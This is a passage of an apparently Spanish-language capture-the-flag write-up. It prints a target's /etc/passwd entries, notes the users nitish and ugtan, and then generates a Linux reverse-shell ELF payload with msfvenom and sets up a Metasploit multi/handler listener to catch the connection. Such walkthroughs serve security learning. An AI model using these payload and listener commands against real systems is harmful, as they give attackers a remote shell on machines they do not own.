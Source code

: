 ```
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
nitish:x:1000:1000:nitish,,,:/home/nitish:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
ugtan:x:1001:1001:umang taneja,,,:/home/ugtan:/bin/bash
ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
postfix:x:112:117::/var/spool/postfix:/usr/sbin/nologin
```

Por lo que vemos hay 2 usuarios llamados `nitish` y `ugtan`...

Lo que haremos sera un `payload` para poder hacernos una shell mediante `metasploit` ya que esta sanitizadas las `Reverse Shell's`...

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o payload.elf
```

Info:

```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: payload.elf
```

Preparamos el `metasploit`...

```shell
msfconsole -q
```

```shell
#Utilizar el siguiente exploit
use multi/handler

#Configurar payload anterior
set payload linux/x86/shell_reverse_tcp

#Configuracion
show options

set LHOST <IP>

set LPORT <PORT>

#Iniciar para estar a la escucha
run
```
